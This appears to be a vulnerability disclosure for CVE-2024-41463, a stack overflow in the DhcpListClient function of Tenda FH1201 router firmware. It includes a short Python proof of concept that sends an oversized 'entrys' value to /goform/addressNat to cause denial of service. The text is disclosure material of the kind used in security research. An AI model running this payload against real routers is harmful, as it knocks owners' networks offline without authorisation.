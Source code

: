 # addressNat

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41463

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the DhcpListClient function.The parameter entrys is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter

![image-20240724095512087](./image-20240724095512087.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/addressNat"

data = {"entrys": "a"*999}

ret = requests.post(url, data)

```

![image-20240724095607594](./image-20240724095607594.png)

